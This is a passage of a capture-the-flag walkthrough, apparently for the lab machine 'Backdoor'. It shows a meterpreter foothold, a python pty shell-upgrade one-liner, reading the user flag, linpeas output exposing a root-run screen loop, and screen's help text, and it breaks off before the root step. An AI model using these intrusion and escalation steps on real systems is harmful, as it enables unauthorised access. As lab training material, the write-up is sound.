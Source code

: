 * Exploiting it gets us to `<meterpreter>` , to get a proper shell use `shell` command
* And we have the user shell
* `python3 -c "import pty;pty.spawn('/bin/bash')"`

```bash
user@Backdoor:~$ id
id
uid=1000(user) gid=1000(user) groups=1000(user)

user@Backdoor:~$ cat user.txt
<--SNIPPED-->
```

### Privilege Escalation

**Linpeas**

```bash
root         937  0.0  0.1   8356  3420 ?        S    07:15   0:00  _ /usr/sbin/CRON -f
root         954  0.0  0.0   2608  1596 ?        Ss   07:15   0:02      _ /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec s
```

* The screen service is running at root privileges

## **Root Shell**

```bash
user@Backdoor:~$ /usr/bin/screen -h

-h lines      Set the size of the scrollback history buffer.
-i            Interrupt output sooner when flow control is on.
-l            Login mode on (update /var/run/utmp), -ln = off.
-ls [match]   or
-list         Do nothing, just list our SockDir [on possible matches].
-L            Turn on output logging.
-Logfile file Set logfile name.
-m            ignore $STY variable, do create a new screen session.
-O            Choose optimal output rather than exact vt100 emulation.
-p window     Preselect the named window if it exists.
-q            Quiet startup. Exits with non-zero return code if unsuccessful.
-Q            Commands will send the response to the stdout of the querying process.
-r [session]  Reattach to a detached screen process.
-R            Reattach if possible, otherwise start a new session.
-s shell      Shell to execute rather than $SHELL.
-S sockname   Name this session <pid>.sockname instead of <pid>.<tty>.<host>.
-t title      Set title. (window's name).
-T term       Use term as $TERM for windows, rather than "screen".
-U            Tell screen to use UTF-8 encoding.
-v            Print "Screen version 4.08.00 (GNU) 05-Feb-20".
-wipe [match] Do nothing, just clean up SockDir [on possible matches].
-x            Attach to a not detached screen. (Multi display mode).
-X            Execute <cmd> as a screen command in the specified session.

```
